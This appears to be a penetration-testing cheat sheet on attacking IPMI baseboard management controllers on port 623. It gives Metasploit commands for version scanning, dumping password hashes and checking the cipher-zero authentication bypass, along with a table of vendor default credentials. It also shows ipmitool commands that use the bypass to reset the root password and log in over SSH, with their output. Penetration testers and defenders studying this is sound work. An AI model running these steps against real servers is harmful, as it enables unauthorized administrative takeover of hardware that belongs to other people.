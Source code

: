 ```yaml
---
description: >-
  Intelligent Platform Management Interface (IPMI)  is a set of computer
  interface specifications for an autonomous computer subsystem that provides
  management and monitoring capabilities independently.
---
```


# 623 - IPMI

### Metasploit

### Find version

```text
msf > use auxiliary/scanner/ipmi/ipmi_version
msf auxiliary(ipmi_version) > set RHOSTS 10.0.0.0/24
msf auxiliary(ipmi_version) > run
[*] Sending IPMI requests to 10.0.0.0->10.0.0.255 (256 hosts)
[+] 10.0.0.22:623 - IPMI - IPMI-2.0 UserAuth(auth_user,non_null_user) PassAuth(md5,md2)Level(1.5,2.0)
```

### Dump hashes

```text
use auxiliary/scanner/ipmi/ipmi_dumphashes 
set rhosts [TARGETS] 
run 
```

### Common default credentials

| Product Name  | Default Username  | Default Password  |
| :--- | :--- | :--- |
| HP Integrated Lights Out \(iLO\)  | Administrator  | &lt;factory randomized 8-character string&gt;  |
| Dell Remote Access Card \(iDRAC, DRAC\)  | root  | calvin  |
| IBM Integrated Management Module \(IMM\)  | USERID  | PASSW0RD \(with a zero\)  |
| Fujitsu Integrated Remote Management Controller  | admin  | admin  |
| Supermicro IPMI \(2.0\)  | ADMIN  | ADMIN  |
| Oracle/Sun Integrated Lights Out Manager \(ILOM\)  | root  | changeme  |
| ASUS iKVM BMC  | admin  | admin  |

Resources: 

{% embed url="https://blog.rapid7.com/2013/07/02/a-penetration-testers-guide-to-ipmi/" %}

## Zero cipher authentication bypass

Zero cipher authentication bypass resulting in administrative access

### Check if vulnerable

```text
msf > use auxiliary/scanner/ipmi/ipmi_cipher_zero
msf auxiliary(ipmi_cipher_zero) > set RHOSTS 10.0.0.22
msf auxiliary(ipmi_cipher_zero) > run
[*] Sending IPMI requests to 10.0.0.22->10.0.0.22 (1 hosts)
[+] 10.0.0.22:623 - IPMI - VULNERABLE: Accepted a session open request
```

### Connect

The Linux ipmitool client is used to interact with the service and bypass authentication \(via the -C 0 option\).

We will set the root user account password to abc123 via IPMI.

```text
root@kali:~# ipmitool -I lanplus -C 0 -H 10.0.0.22 -U root -P root user list
ID Name Callin Link Auth IPMI Msg Channel Priv Limit
2 root true true true ADMINISTRATOR
3 Oper1 true true true ADMINISTRATOR
root@kali:~# ipmitool -I lanplus -C 0 -H 10.0.0.22 -U root -P root user set password 2 abc123
root@kali:~# ssh root@10.0.0.22
root@10.121.1.22's password: abc123
17
18
19 20
/admin1-> version
SM CLP Version: 1.0.2
SM ME Addressing Version: 1.0.0b
```

